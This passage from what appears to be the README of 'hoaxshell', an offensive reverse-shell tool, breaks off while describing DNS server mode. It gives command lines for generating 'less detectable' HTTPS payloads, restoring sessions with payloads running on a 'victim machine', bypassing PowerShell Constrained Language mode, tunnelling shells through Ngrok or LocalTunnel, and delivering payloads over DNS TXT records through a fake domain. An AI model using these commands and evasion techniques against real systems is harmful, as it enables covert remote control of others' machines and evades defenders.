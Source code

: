 ### Encrypted shell session with a trusted certificate
If you own a domain, use this option to generate a shorter and less detectable https payload by providing your DN with -s along with a trusted certificate (-c cert.pem -k privkey.pem).
```
sudo python3 hoaxshell.py -s <your.domain.com> -t -c </path/to/cert.pem> -k <path/to/key.pem>
```

### Grab session mode
In case you close your terminal accidentally, have a power outage or something, you can start hoaxshell in grab session mode, it will attempt to re-establish a session, given that the payload is still running on the victim machine.
```
sudo python3 hoaxshell.py -s <your_ip> -g
```  
**Important**: Make sure to start hoaxshell with the same settings as the session you are trying to restore (http/https, port, etc).

### Constraint language mode support
Use any of the payload variations with the `-cm` (--constraint-mode) option to generate a payload that works even if the victim is configured to run PS in Constraint Language mode. By using this option, you sacrifice a bit of your reverse shell's stdout decoding accuracy.

```
sudo python3 hoaxshell.py -s <your_ip> -cm
```  
![image](https://user-images.githubusercontent.com/75489922/195785804-7fa3da9b-a10f-4c72-895a-0648271e7ec6.png)


### Shell session over https using tunneling tools ([Ngrok](https://ngrok.com) / [LocalTunnel](https://localtunnel.me))
Utilize tunnelling programmes **Ngrok** or **LocalTunnel** to get sessions through secure tunnels, overcominge issues like not having a Static IP address or your ISP forbidding Port-Forwarding.

Use `-ng` or `--ngrok` for Ngrok server
```
sudo python3 hoaxshell.py -ng
```

Use `-lt` or `--localtunnel` for LocalTunnel server
```
sudo python3 hoaxshell.py -lt
```

### Using a self-hosted DNS server, transmit the payload via fake domain

Use `-dns` or `--dns-server` to start a **DNS server** on port `53`. On the victim's computer, the DNS payload will be executed, and the chunks of **TXT** records will be received to construct the actual payload. The DNS server will also attempt to resolve the fake domain name provided with the `-d` argument and will return the fake/false information. This way, you can use a fake domain name to transmit the payload to the victim machine. 

Use `-dns` or `--dns-server` to start the server.
There are some required arguments for this mode:
